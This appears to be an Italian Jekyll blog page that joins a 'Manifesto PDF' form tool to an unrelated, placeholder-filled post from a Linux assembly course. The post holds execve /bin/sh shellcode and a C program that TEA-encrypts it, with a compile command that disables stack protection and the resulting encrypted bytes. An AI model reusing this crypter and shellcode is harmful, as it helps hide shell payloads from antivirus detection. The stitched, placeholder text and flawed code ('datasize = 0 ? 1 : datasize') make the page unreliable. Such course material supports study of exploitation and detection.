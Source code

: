 ```yaml
---
layout: post
title:  "il Manifesto 2 pdf"
date:   06-10-2018
categories: tools
---
```

<br />

<script type="text/javascript" src="../js/jquery-3.3.1.min.js"></script>
<script type="text/javascript" src="../js/manifesto.js"></script>

<center>
<form id="frm1">
  Inserisci l'url dell'articolo: <input type="text" name="fname" value="URL COMPLETO"><br>
</form>

<button onclick="myFunction()">Ottieni PDF</button>
</center>

<p id="link"></p>

<script>
function myFunction() {
    var x = document.getElementById("frm1");
    var text = "";
    var i;
    for (i = 0; i < x.length ;i++) {
        text += x.elements[i].value;
    }
    link2pdf(text);
}
</script>


Student **Prova**  
Github: [https://github.com/massimobedini](https://github.com/massimobedini)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Prova 7:  
    
**Prova:**  
> *Uno*
 - *Due*
 - *Tre*  
  
Ciao a tutti,  
Blabbiti: 
*'Quote.'*  
 
  
Canic [link](http://www.tayloredge.com/reference/Mathematics/TEA-XTEA.pdf).  

Shellcode:  
```
\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Rpba:  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void encode(long *data, long *key) {
	unsigned long y = data[0], z = data[1],
	sum = 0, delta = 0x9e3779b9, n = 32;
	while (n-- > 0) {
		sum += delta;
		y += (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
		z += (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3];
	}
	data[0] = y;
	data[1] = z;
}

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void codestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		encode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; //execve-stack
	
	int last;
	char *str, buff[512];
	char key[16] = "iloveshellcodess";
	
	str = shellcode;

	codestr(str, key);

	printf("\Ciphered shellcode size: %d\n", strlen(str));
	printf("\Ciphered shellcode:\n");

	int j;
	for (j=0;j<strlen(str);j++)
	{
		printf("\\x%02x", (unsigned char)(int)str[j]);
	}
	
	return 0;
}
```
  
Bash:
```bash
# gcc -fno-stack-protector -z execstack -o tea_crypter tea_crypter.c && chmod u+x ./tea_crypter && ./tea_crypter
Ciphered shellcode size: 25
Ciphered shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
```  
  
Ciao.
  
[Massimo](https://twitter.com/massimobedini)
